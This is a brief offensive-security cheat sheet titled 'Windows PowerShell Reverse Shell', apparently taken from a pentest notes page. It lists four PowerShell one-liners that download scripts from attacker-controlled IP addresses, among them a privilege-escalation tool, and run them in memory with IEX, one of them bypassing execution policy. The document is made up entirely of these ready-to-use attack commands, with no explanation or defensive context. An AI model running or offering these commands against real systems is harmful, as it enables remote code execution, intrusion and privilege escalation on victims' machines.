 ### Windows PowerShell Reverse Shell

* Option 1
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
```
* Option 2
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
```
* Option 3
```
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
```
* Option 4
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```

